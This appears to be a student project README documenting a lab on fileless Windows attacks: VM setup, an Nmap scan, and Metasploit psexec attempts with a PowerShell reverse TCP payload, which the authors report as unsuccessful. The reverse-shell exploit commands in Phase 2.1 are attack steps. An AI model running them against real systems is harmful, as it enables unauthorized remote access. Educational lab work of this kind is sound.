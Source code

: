 # Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Griffin

### Project Description

- The purpose of this project is to conduct offensive security research primarily focused on identifying, exploiting, 
and mitigating fileless malware attacks within a Windows-based environment to improve cybersecurity defenses against
in-memory code execution. This project will simulate real-world fileless attacks within a controlled environment using 
a Kali Linux VM and a Windows 10 VM, providing a platform for fileless vulnerability discovery and exploitation. The 
tools that will be used in this research are Metasploit Framework, Nmap, and custom Python scripts, focusing on how 
these tools can be utilized to discover and exploit such attacks, providing insights for enhancing traditional 
cybersecurity defenses against fileless malware.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Windows 10 VM` a base Windows 10 VM, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system
- Set up the `Windows 10 VM` as the target system.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Windows 10 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Windows 10` iso image from https://www.microsoft.com/en-us/software-download/windows10
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk with 60 GB of storage**
- Install the `Windows 10` iso image onto the newly created VM instance
- Change the **Network Adapter** to **Host-only Adapter** in the `Windows 10` machine settings
- Start the `Windows 10 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- Install the `Kali Linux` iso image onto the newly created VM instance
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using the login credentials created

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux VM` and the `Windows 10 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Windows 10 VM` terminal

**Displays IP configuration information on the system**
``` 
ipconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Windows 10 VM` using the following command

**Scans all 65,535 ports on the target system and returns every open port**
```
nmap -p- <target ip>
```

- Some exploitable ports that were open on our target system are as follows:
  + `SMB port 139`
  + `SMB port 445`

**Screenshot of our nmap scan**

![](./images/Nmap_SS.png)

---

# Phase 2 Objectives

- Use `Metasploit Framework` to exploit an in-memory vulnerability
- Create a `Custom Python Script` to automate port scanning and exploitation
- Document the technical steps taken and our findings.

# Phase 2.1 - Exploiting using Metasploit Framework

- Now, we can use `Metasploit Framework` on our `Kali Linux VM` to exploit some vulnerabilities on these open ports
- Since `SMB ports 139 and 445` are open, we can attempt to exploit a PowerShell Reverse TCP vulnerability on the 
target system using the following commands

**Enter the Metasploit Framework terminal using this command**
```
sudo msfconsole
```
![](./images/msfconsole_command.png)

**We can search exploits specific to PowerShell using the following command**
```
search powershell
```

![](./images/search_powershell_command.png)

**Exploits an SMB vulnerability to execute a payload in memory using PowerShell**
```
use exploit/windows/smb/psexec
```

![](./images/use_exploit_command.png)

**Setting options for our exploit, such as payload, RHOST, and LHOST**
```
set payload windows/x64/powershell_reverse_tcp
set RHOST <target_ip>
set LHOST <attacker_ip>
```

![](./images/exploit_settings.png)

**Runs the exploit**
```
exploit
```
![](./images/exploit_command.png)

**As we can see, our exploit was unsuccessful because we were denied access to the target system.
We can configure additional options for this exploit to try working around this error.**

**Setting additional options for our exploit, such as SMBuser and SMBpass for authentication**
```
set SMBuser <target_username>
set SMBpass <target_password>
```
![](./images/exploit_settings2_command.png)

**Trying the exploit again**
```
exploit
```

![](./images/exploit2_command.png)

**As we can see, another unsuccessful attempt to create a Reverse TCP connection through PowerShell using open SMB ports.
At this point in our research, we are unsure how to proceed with exploiting a fileless attack through PowerShell via 
open ports on a Windows-based target system. However, we will continue to refine our methods to successfully create an
effective fileless attack on our Windows 10 VM.**

# Phase 2.2 - Automation using Python

-  Our objective here is to create a functional Python script to automate port scanning and vulnerability exploitation
- We will be using `Python3` for this phase of our research

**Our `Custom Python Script` can be found here:** https://github.com/eisenbeisr/CSC466-OffensiveSecurityResearch/blob/master/script.py


---